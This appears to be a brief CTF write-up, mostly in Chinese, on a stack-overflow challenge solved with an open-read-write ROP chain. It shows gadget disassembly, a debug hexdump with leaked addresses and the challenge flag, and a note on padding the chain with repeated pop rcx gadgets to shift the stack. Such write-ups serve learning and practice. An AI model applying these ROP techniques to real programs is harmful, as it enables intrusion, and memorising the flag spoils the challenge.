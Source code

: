 
# 思路
栈溢出+orw，本题打one_gadget，和system("/bin/sh")都不通，不知道为什么？

# debug
```
   0x40117e <gadgets+8>:        pop    rcx
   0x40117f <gadgets+9>:        ret
   0x401180 <gadgets+10>:       nop
   0x401181 <gadgets+11>:       pop    rbp
   0x401182 <gadgets+12>:       ret

```

# getshell
```
[DEBUG] Received 0x64 bytes:
    00000000  2e 3b 2c 3b  2e 7b 61 61  61 61 61 61  61 5f 28 e2  │.;,;│.{aa│aaaa│a_(·│
    00000010  95 af c2 b0  e2 96 a1 c2  b0 29 e2 95  af ef b8 b5  │····│····│·)··│····│
    00000020  20 e2 94 bb  e2 94 81 e2  94 bb 5f 61  61 61 61 61  │ ···│····│··_a│aaaa│
    00000030  61 61 7d 0a  93 7f 00 00  50 40 40 00  00 00 00 00  │aa}·│····│P@@·│····│
    00000040  a1 38 5e d5  93 7f 00 00  64 00 00 00  00 00 00 00  │·8^·│····│d···│····│
    00000050  50 3a 65 d5  93 7f 00 00  7e 11 40 00  00 00 00 00  │P:e·│····│~·@·│····│
    00000060  58 40 40 00                                         │X@@·│
    00000064
.;,;.{aaaaaaa_(╯°□°)╯︵ ┻━┻_aaaaaaa}
\x93\x7f\x00\x00P@@\x00\x00\x00\x00\x00\xa18^Փ\x7f\x00\x00d\x00\x00\x00\x00\x00\x00\x00P:eՓ\x7f\x00\x00~\x11@\x00\x00\x00\x00\x00X@@\x00[*] Got EOF while reading in interactive
$

```
![](https://r2.20161023.xyz/pic/20250614183002451.png)


# why p64(pop_rcx)*70？
- to control the rsp,make it to big and big, to prevent program execution failure
- use gdb , find some `push` in the puts function
![](https://r2.20161023.xyz/pic/20250616134452737.png)
![](https://r2.20161023.xyz/pic/20250616134702353.png)
![](https://r2.20161023.xyz/pic/20250616134816208.png)